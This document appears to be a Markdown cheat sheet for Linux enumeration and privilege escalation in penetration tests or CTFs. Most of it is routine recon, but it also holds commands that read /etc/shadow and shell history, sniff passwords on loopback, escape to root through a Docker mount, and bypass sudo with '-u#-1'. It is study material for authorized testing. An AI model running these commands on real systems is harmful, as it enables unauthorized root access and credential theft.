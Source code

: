 ## Linux Enumeration

I only transfer linpeas, if I am not able to find anything manually

### Links
- [LinPeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)

### Writable Paths

```
/dev/shm/
/tmp/
/home/<USER>/
/var/www/html/<>
```

### Alternatives of `cat`

```
# using grep 
grep . <filename> 

# print all files in current dir 
grep -R . 

# script 
while read line; do echo $line; done < FILE
```
### Path Fix

```
export PATH=/bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:$PATH
```
### Quick Wins

```
ls -la /etc/passwd # See if you can write into /etc/passwd
find / -writable -type d 2>/dev/null # insecure file perms
cat /etc/crontab # crontab
uname -r # Kernel exploit
find / -perm -u=s -type f 2>/dev/null # GTFO Bins now.
docker run -v /:/mnt --rm -it alpine chroot /mnt sh # Docker
sudo -l # Sudo privs on what
getcap -r / 2>/dev/null # ep in end means privilege everything # GTFO Bins.
cat /etc/exports  # Check if rw and "no_root_squash" both are present  # The directory in which both are present is shareable and mountable.
env
cat .bashrc
history
watch -n 1 "ps -aux | grep pass" # grep pass in processes
sudo tcpdump -i lo -A | grep "pass" # sometimes password in here

grep "CRON" /var/log/syslog # inspecting cron logs
```

### Manual Enumeration

```
bash -i # Interactive bash
whoami
id
cat /etc/passwd # If www user us then meaning web server is there
uname -a # Kernel Version and Arch
cat /etc/issue # Kernel Version
Sysinfo
ps aux # What's running by root?
hostname
hostnamectl
ifconfig
ip route
ip a # If connection is connected to more than 1 network
arp -a
/opt/linux_privesc/chisel # Internal running ports
netstat -a # Internal running ports
cat /var/html # Config Files
/sbin/route # Route table
ls -la passwd
cat /etc/passwd | cut -d : -f 1 # Usernames
cat /etc/shadow
cat /etc/group
cat /etc/os-release
cat .bash_history
history
grep -Hs iptables /etc/* # Firewall rules if lucky

'sudo -u#-1 /bin/bash' # !root (no root)

# Find commands
locate flag.txt
which flag.txt
find / -name flag.txt >2/dev/null
```


### Search for text in files (and !)

```
# search keyword in all files recursive
grep -iR "<keyword>" <SEARCH-PATH> --color=alwauys 2>/dev/null
grep -Rnw <path-to-search> -ie "<keyword>" --color=always 2>/dev/null

# grep all files not containing certain text
grep -L "TEXT_FILE_SHOULD_NOT_CONTAIN" [files | *.extension]

# print file contents without comments (#) and removes the empty lines.
grep -v "^[#;]" FILE | grep -v "^$" 
```
